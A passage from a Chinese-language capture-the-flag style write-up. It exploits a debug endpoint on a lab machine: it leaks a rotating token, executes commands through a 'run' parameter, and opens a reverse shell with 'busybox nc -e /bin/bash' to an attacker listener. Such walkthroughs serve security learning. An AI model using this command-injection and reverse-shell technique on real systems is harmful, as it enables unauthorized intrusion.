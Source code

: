 ## **2.2 远程命令执行（RCE）**

访问`/info`路径，发现它会返回一个诊断令牌。多次访问后发现，该令牌是随机变化的。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.132:8080/info
System Info: Diagnostic token = BetaToken123
...
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.132:8080/info
System Info: Diagnostic token = CyberCorpDebug123
```

访问`/debug`路径提示缺少`token`参数。尝试将从`/info`获取的令牌作为参数提供，页面提示缺少`run`命令。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.132:8080/debug?token=CyberCorpDebug123'
Missing run command
```

这表明该端点可能存在命令执行漏洞。通过`run`参数传递`id`命令进行测试，成功执行并返回了结果。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.132:8080/debug?token=CyberCorpDebug123&run=id'
uid=1002(lois) gid=1002(lois) groups=1002(lois),0(root)
```

**注意**：由于令牌是随机的，需要先访问`/info`获取有效令牌，再立即用于`/debug`端点。

## **2.3 获取反向Shell**

在Kali上设置`netcat`监听8888端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
```

利用已发现的RCE漏洞，执行一个反向shell命令。这里使用`busybox nc`来建立连接。

```bash
http://192.168.205.132:8080/debug?token=CyberCorpDebug123&run=busybox%20nc%20192.168.205.128%208888%20-e%20/bin/bash
```

成功接收到反向shell，当前用户为`lois`。

```bash
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.132] 45526
id
uid=1002(lois) gid=1002(lois) groups=1002(lois),0(root)
```

随后，通过一系列命令将简易shell升级为功能完善的交互式TTY。
